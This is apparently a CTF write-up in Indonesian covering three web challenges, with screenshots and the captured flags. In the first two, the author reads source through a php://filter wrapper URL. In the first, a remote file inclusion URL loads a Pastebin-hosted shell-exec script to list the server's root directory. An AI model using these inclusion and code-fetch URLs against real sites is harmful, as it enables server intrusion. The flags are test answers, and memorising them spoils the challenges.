<h4>eRFI Minta Tolong</h4>

<pre>
Flag jauh dari apa yang kamu liat:* 
http://ccug.my.id:20001/ 
Author: aldo Berikut adalah tampilan website
</pre>

berikut adalah tampilan website

Saya mencoba masuk ke halaman flag, tampil kalimat Ga ada euy

Lalu dari sini saya mencoba melakukan php wrapper dengan encode code script menjadi base64 dengan url berikut ccug.my.id:20001/index.php?page=php://filter/convert.base64-encode/resource=flag.php berikut yang muncul

Lalu saya coba decode base64 tersebut

Ternyata ketika saya input hanya flag palsu :P, kemudian saya baca baca kembali mengenai RFI ternyata saya menemukan metode dengan membuat script shell exec dengan menggunakan raw pastebin https://pastebin.com/raw/knGELgnB saya buat script sebagai berikut

Lalu saya implementasikan ke web challenge dengan memasukan pastebin berikut

Ternyata hanya terdapat 2 file php yaitu flag dan index ketika saya buka halaman flag hanya muncul halaman seperti tadi yaitu ga ada euy

Akhirnya disini saya mencoba mengubah script saya kembali dengan memberikan ls / yaitu melihat direktori berikut nya dengan –la untuk menampilkan file yang dihidden https://pastebin.com/raw/keEru4T7

Lalu saya masukan raw tersebut ke dalam url challenge ccug.my.id:20001/index.php?page=https://pastebin.com/raw/keEru4T7 sehingga muncul sebagai berikut

Dari halaman diatas saya melihat tersedia file 1NI_Fl4G_eUy.txt yang membuat saya ingin membuka file tersebut lalu saya buka dengan url berikut ccug.my.id:20001/index.php?page=/1Ni_fL4g_eUy.txt dan saya coba input

ternyata benar flag dari challenge ini adalah 
<pre>
hackfest{widihhh_mantep_euy_tau_aja_ada_disini}
</pre>

 

<h4>Where Are You Now?</h4>
<pre>
Hehehe boi 
http://ccug.my.id:20000/ 
Author: aldo
</pre>

Berikut adalah halaman utama pada website tersebut

Ketika saya masuk ke dalam halaman flag ini yang ditampilkan seperti berikut

Lalu saya mencoba melihat source code dari halaman ini dengan menggunakan php wrapper encode source code ke base64 dengan url berikut ccug.my.id:20000/index.php?page=php://filter/convert.base64-encode/resource=flag.php

lalu saya coba decode base64 tersebut dengan menggunakan terminal

Dan ternyata setelah didecode muncul flag challenge ini
<pre>
hackfest{tau_kan_harus_diapain_nih_flag?_ya_disubmit_lah:)}
</pre>

 

<h4>Bayi IE</h4>
<pre>
Ezz Parah Gak Usah Nanya (1) 
http://ccug.my.id:22121/ 
Author: Ikhari
</pre>

Berikut adalah halaman website challenge ini

Saya mencoba inspect dan melihat source code dari web ini ternyata saya menemukan clue dari flag

Sebelumnya saya pernah menemukan challenge yang serupa jadi sedikit optimis dengan chal ini :P, lalu saya lihat file yang berhubungan dengan source code ternyata ketika dibuka file vega.min.js terdapat sambungan flag

Kemudian Saya mencoba mencari 1 sambungan lagi setelah membuka satu persatu saya menemukan nya di file templetamo-style.css

Sehingga ketika saya gabungkan menjadi
<pre>
hackfest{IE_AdAlaH_Hal_ PaLiNg_pEnTing_DAlaM_menCARI_iNfo}
</pre>